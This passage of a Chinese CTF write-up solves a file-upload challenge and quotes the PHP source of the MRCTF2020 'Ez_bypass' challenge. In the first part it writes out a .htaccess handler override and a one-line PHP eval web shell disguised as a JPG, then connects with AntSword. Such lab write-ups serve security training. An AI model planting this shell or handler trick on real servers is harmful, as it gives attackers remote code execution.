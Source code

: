 传.htaccess

```
<FilesMatch "wuhu">
    SetHandler application/x-httpd-php
</FilesMatch>
```

/var/www/html/upload/fa75c48848aa00244f9317333bbbffe1/.htaccess

传wuhu.jpg

```
<?php eval($_POST['wuhu']);?>
```

/var/www/html/upload/fa75c48848aa00244f9317333bbbffe1/wuhu.jpg

连蚁剑，拿flag

flag{0188a589-fefe-4939-95d1-cbcc433fc9b2}

{{% /spoiler %}}

{{% spoiler "[MRCTF2020]Ez_bypass  |  is_numeric" %}}

排版问题，看页面源码

```
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```